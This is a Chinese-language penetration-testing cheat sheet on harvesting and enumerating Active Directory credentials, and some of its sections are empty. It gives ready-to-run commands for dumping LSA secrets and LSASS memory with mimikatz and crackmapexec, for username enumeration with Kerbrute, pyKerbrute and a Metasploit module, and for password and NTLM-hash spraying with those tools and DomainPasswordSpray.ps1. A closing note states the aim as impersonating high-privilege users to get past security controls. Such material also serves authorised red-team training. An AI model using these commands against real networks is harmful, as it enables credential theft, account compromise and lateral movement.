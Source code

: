 ```yaml
---
description: 枚举用户名 + 密码喷洒 = 获取有效凭证 / 枚举出用户名
---
```


# ✔️ 枚举域内有效凭证

## 先决条件

* 已经在目标域中建立了基本的立足点
* 有足够权限利用域内的查询命令 / 工具

## 获取明文身份凭证

### LAS Secrets

*

```powershell
# 使用mimikatz提取
mimikatz.exe
privilege::debug
lsadump::secrets
```

```bash
 # 使用crackmapexec提取
 crackmapexec smb 192.168.xxx.xxx -u 用户名 -p 密码 --lsa
```

```bash
# shiyo
```

### LSASS进程

* 从LSASS进程中提取存储在内存中的NTLM哈希、明文密码、Kerberos 票据：

```powershell
# 使用mimikatz提取
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
sekurlsa::tickets
```

```bash
# 使用crackmapexec提取
crackmapexec smb 192.168.xxx.xxx -u 用户名 -p 密码 --lsa
```

### LSASS Protection bypass







### Credential Manager





## 获取Hash身份凭证

### 通过SAM数据库获取本地用户Hash凭证





### 通过域控的ntds.dit文件

#### 本地提取



#### 远程提取



## 用户名枚举工具&使用

### Kerbrute

* `userenum`：指定操作为用户名枚举
* `usernames.txt`：包含待枚举用户名的文件（可以是字典，也可以是针对目标域收集到的用户名列表）

```bash
kerbrute userenum -d 目标域名 usernames.txt -dc-ip 域控IP
```

### pyKerbrute

* 和Kerbrute类似（该工具用python写的）
* 用的是：**EnumADUser.py**

```bash
// TCP模式
python EnumADUser.py 域控IP 目标域名 username.txt tcp
// UDP模式
python EnumADUser.py 域控IP 目标域名 username.txt udp
```

### MSF

* 模块：**auxiliary/gather/kerberos\_enumusers**

```bash
use auxiliary/gather/kerberos_enumusers
set domain 目标域名
set RHOSTS 域控IP
set user_file /tem/username.txt
run
```

## 密码喷洒工具&使用

### Kerbrute

* `passwordspray`：指定操作为密码喷洒

```bash
kerbrute passwordspray -d 目标域名 -p 已知的密码 usernames.txt -dc-ip 域控IP
```

### pyKerbrute

* 用的是：**ADPwdSpray.py**

```bash
// 针对明文密码进行喷洒（TCP和UDP模式）
python ADPwdSpray.py 域控IP 目标域名 username.txt clearpassword 已知明文密码 tcp
python ADPwdSpray.py 域控IP 目标域名 username.txt clearpassword 已知明文密码 udp
// 针对密码Hash进行喷洒（TCP和UDP模式）
python ADPwdSpray.py 域控IP 目标域名 username.txt ntlmhash 已获取的密码哈希 tcp
python ADPwdSpray.py 域控IP 目标域名 username.txt ntlmhash 已获取的密码哈希 udp
```

### DomainPasswordSpray.ps1

* 该工具为powershell脚本
* 需要在目标域内机器上执行
* 原理：利用LDAP从域中导出列表->去除被锁定的用户->进行密码喷洒

```powershell
Import-Module.\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password 已知的明文密码
```

{% hint style="info" %}
在域渗透的过程中，枚举域内有效凭证的作用是为了收集更多有利于权限提升、横向移动等操作所需要的必要身份验证信息。本质上是为了冒充合法的高权限用户，绕过目标的安全限制，达到访问目标受限资源和进一步扩大攻击面。
{% endhint %}
